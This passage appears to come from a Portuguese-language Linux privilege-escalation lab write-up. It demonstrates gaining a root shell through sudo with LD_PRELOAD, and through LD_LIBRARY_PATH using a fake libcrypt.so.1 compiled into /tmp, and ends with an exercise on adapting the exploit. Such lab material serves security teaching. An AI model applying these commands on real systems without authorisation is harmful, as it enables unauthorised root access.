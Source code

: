 ```shell
    (root) NOPASSWD: /usr/sbin/apache2
    (root) NOPASSWD: /bin/more
user@debian:~$ sudo LD_PRELOAD=/tmp/preload.so vim
root@debian:/home/user# id
uid=0(root) gid=0(root) groups=0(root)
root@debian:/home/user# 
```

No exemplo acima, foi utilizado o vim, que está na lista de binários que o usuário pode executar com sudo. Obteve-se um shell como usuário root.

Para listar quais bibliotecas determinado programa utiliza, basta usar o comando ldd. Por exemplo:

```shell
root@debian:/home/user# ldd /usr/sbin/apache2
        linux-vdso.so.1 =>  (0x00007fff4e3b4000)
        libpcre.so.3 => /lib/x86_64-linux-gnu/libpcre.so.3 (0x00007f0b9dae5000)
        libaprutil-1.so.0 => /usr/lib/libaprutil-1.so.0 (0x00007f0b9d8c1000)
        libapr-1.so.0 => /usr/lib/libapr-1.so.0 (0x00007f0b9d687000)
        libpthread.so.0 => /lib/libpthread.so.0 (0x00007f0b9d46b000)
        libc.so.6 => /lib/libc.so.6 (0x00007f0b9d0ff000)
        libuuid.so.1 => /lib/libuuid.so.1 (0x00007f0b9cefa000)
        librt.so.1 => /lib/librt.so.1 (0x00007f0b9ccf2000)
        libcrypt.so.1 => /lib/libcrypt.so.1 (0x00007f0b9cabb000)
        libdl.so.2 => /lib/libdl.so.2 (0x00007f0b9c8b6000)
        libexpat.so.1 => /usr/lib/libexpat.so.1 (0x00007f0b9c68e000)
        /lib64/ld-linux-x86-64.so.2 (0x00007f0b9dfa2000)
```

Um outra técnica de exploração para elevar privilégios é gerar uma biblioteca com o mesmo nome que um binário usa de forma compartilhada. Para ilustrar, observe a geração de uma lib com o mesmo nome de uma utilizada pelo apache2:

```shell
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
```
Novamente, a lib "disfarçada" foi gerada no diretório ***/tmp***.

Para efetivar, ao executar o apache2 com o sudo, informa-se a variável de ambiente LD_LIBRARY_PATH:

```shell
user@debian:~$ sudo LD_LIBRARY_PATH=/tmp apache2

apache2: /tmp/libcrypt.so.1: no version information available (required by /usr/lib/libaprutil-1.so.0)

root@debian:/home/user# 
```
Percebe-se que foi gerado um shell de root.

Na task é proposto o seguinte desafio:

Saia da shell de root. Tente renomear /tmp/libcrypt.so.1 para o nome de outra biblioteca usada pelo apache2  (listadas com o comando ldd mais acima) e execute novamente o apache2 usando sudo novamente. Funcionou? Se não, tente descobrir por que não, e como o código library_path.c pode ser alterado para fazê-lo funcionar.
